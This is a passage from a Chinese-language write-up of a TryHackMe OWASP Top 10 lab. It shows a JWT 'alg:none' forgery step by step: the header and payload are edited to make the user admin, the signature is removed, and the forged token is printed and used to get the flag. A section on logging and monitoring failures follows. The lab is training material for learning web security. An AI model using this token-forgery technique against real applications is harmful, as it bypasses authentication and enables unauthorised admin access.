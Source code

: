 ![image-20240109234154717](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109234154717.png)

```shell
#head
{"typ":"JWT","alg":"HS256"}

#payload
{"username":"guest","exp":1704816632}
```

我们对上述解码后的令牌部分进行修改(将令牌标头中的`alg`值改为`none`，将令牌有效载荷中的`username`值改为`admin`)，然后再重新进行Base64编码处理。

```shell
#head
{"typ":"JWT","alg":"none"}

#payload
{"username":"admin","exp":1704816632}
```

![image-20240109235134223](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109235134223.png)

![image-20240109235218556](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109235218556.png)

以点号为间隔，重新组合得到的新JWT令牌值如下所示：

```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzA0ODE2NjMyfQ==.
#注意末尾也需要.号。
#签名部分直接做了删除处理，所以新的JWT令牌现在没有签名部分。
```

回到我们的本地浏览器界面，我们用新的JWT令牌替换之前的guest用户的JWT令牌值，然后我们刷新浏览器页面即可获取flag：

![image-20240109235801281](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109235801281.png)

![image-20240109235848879](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109235848879.png)

> 得到的flag为：THM{Dont\_take\_cookies\_from\_strangers} 。

![image-20240109235936626](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240109235936626.png)

## \[TOP9]安全日志和监控故障

在设置Web应用程序时，应该记录用户执行的每个操作。这些日志记录很重要，因为一旦发生安全事件，日志就可以用于追踪攻击者的活动；一旦追踪到攻击者的活动，就可以确定他们所进行的行为的安全风险和安全影响。 如果没有日志记录，那么就无法判断攻击者在获得对特定Web应用程序的访问权限之后，具体执行了哪些操作，安全日志和监控故障的显著影响包括：

* 监管上的损失：如果攻击者获得了对用户个人身份信息的访问权限并且没有留下相关的日志记录，那么不仅应用程序的用户本身会受到安全影响，该应用程序的所有者也可能会依据当地法律法规受到罚款或其他更严厉的处罚。
* 攻击者发起进一步攻击的风险：如果没有相关的日志记录，则可能无法检测到攻击者的存在，这可能允许攻击者通过窃取凭据、攻击基础设施等方式来对Web应用程序所有者发起进一步的攻击。

安全日志文件中所存储的信息应包括以下内容：

* HTTP status codes（HTTP状态码）
* Time Stamps（时间戳）
* Usernames（用户名）
* API endpoints/page locations（API端点/页面位置）
* IP addresses（IP地址）

